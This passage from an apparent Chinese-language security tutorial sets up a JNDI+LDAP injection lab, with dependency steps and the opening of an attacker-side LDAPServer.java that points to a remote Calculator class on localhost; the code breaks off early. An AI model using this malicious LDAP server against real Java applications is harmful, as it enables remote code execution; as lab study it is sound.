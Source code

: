 ### JNDI+LDAP

#### 环境搭建

环境使用上面的即可，但要先本地导入依赖，`maven` 无法拉取 `unboundid` 这个依赖，这一步卡了一段时间，坑点之一

1、点击下载 [unboundid-ldapsdk-3.2.0.jar](https://repo.maven.apache.org/maven2/com/unboundid/unboundid-ldapsdk/3.2.0/unboundid-ldapsdk-3.2.0.jar)，导入依赖即可，本环境在跟目录下创建了 `/lib` 目录用于放置本地依赖  
[![](assets/1711556038-495e72b1160792e3190e60774b1aad1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230308194721-fcac97fc-bda6-1.png)

2、LDAPServer.java 服务端代码

```plain
package jndi_ldap_injection;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class LDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main (String[] args) {

        String url = "http://127.0.0.1:8081/#Calculator";
        int port = 1234;


        try {
```